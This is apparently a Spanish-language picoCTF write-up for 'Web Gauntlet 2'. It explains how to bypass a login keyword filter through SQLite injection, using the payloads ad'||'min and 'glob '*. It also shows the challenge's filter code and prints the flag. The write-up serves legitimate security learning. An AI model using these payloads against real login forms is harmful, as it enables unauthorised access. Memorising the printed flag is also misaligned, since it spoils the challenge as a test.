





# Web Gauntlet 2


## Descripción
This website looks familiar... Log in as admin Site: [http://mercury.picoctf.net:35178/](http://mercury.picoctf.net:35178/) Filter: [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php)

## Resolucion
Nos dan dos enlaces, el primero a un formulario de login:



Y otro que nos lleva a otra página llamada 'filter.php' con una lista de caracteres:



Si intentamos iniciar sesión como 'admin' y contraseña 'root' nos encontramos con el siguiente error:



Esto quiere decir que hemos utilizado una palabra que ha sido filtrada, en este caso 'admin'.

Si probamos con un usuario y contraseña que no se filtre, como por ejemplo 'ad' y 'asd' se nos mostrará la consulta SQLite que está realizando php:


```
SELECT username, password FROM users WHERE username='ad' AND password='asd' 
```

Como estamos en SQLite, tenemos que buscar alguna forma de proporcionar la palabra admin de forma que en php no se reconozca, pero en SQLite sí.

En este caso podemos usar '||', que nos sirve para concatenar (juntar) dos cadenas de caracteres y obtener admin en el usuario.

Para obtener la contraseña, necesitaremos modificar la query para que nos de acceso si la información que proporcionamos coincide con cualquier contraseña almacenada en la base de datos.

Para ello podemos usar: ' glob '*

'glob' busca en la tabla la expresión regular proporcionada y '*' hace que cualquier cadena de caracteres coincida con ella.

Entonces usaremos como usuario: ad'||'min
Y como contraseña: 'glob '*

Creando así la query:

```
SELECT username, password FROM users WHERE username='ad'||'min' AND password='' glob '*' 
```



Acudiendo a [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php), encontraremos el siguiente código php:

```
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```

Obteniendo así la flag: 'picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}'